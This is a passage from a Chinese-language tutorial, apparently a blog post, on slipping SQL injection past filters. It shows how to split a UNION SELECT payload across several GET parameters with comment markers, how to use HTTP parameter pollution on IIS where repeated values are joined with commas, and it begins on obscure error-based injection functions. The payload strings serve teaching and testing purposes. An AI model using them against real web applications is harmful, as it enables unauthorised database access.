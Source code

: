 对于多个参数拼接到同一条SQL语句中的情况，可以将注入语句分割插入。

例如请求URL时，GET参数格式如下：

```
a=[input1]&b=[input2]
```

将GET的参数a和参数b拼接到SQL语句中，SQL语句如下所示。

```
and a=[input1] and b=[input2]
```

这时就可以将注入语句进行拆分，如下所示：

```
a=union/*&b=*/select 1,2,3,4
```

最终将参数a和参数b拼接，得到的SQL语句如下所示：

```
and a=union /*and b=*/select 1,2,3,4
```

这样中间的部分就被注释掉了,就执行了sql语句

## HTTP参数污染

当在服务器中一个参数出现多次的情况下,web中间件为将其解析出不同的结果(a=1&a=2)

在网上扒了个图

![img](https://img-blog.csdnimg.cn/20190106130518949.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2wxMDI4Mzg2ODA0,size_16,color_FFFFFF,t_70)

当中间件时IIS的时,所以参数值会用逗号连接,那我如果刚好将这里的逗号注释掉,是不是就可以进行sql攻击了

如果我们想执行的sql语句是这样的

```
a=union select 1,2,3,4
```

将SQL注入语句转换为以下格式。

```
a=union/*&a=*/select/*&a=*/1&a=2&a=3&a=4
```

最终在IIS中读取的参数值将如下所示

```
a=union/*, */select/*, */1,2,3,4
```

可以看到中间参数连接的地方会被转化为逗号，然后经过注释符的作用,得到了与我们想执行的SQL语句一样的结果

## 生僻函数绕过

在报错注入中`updatexml,extractvalue,floor`只是常用的方法,当然还是有生僻函数可以代替他们的
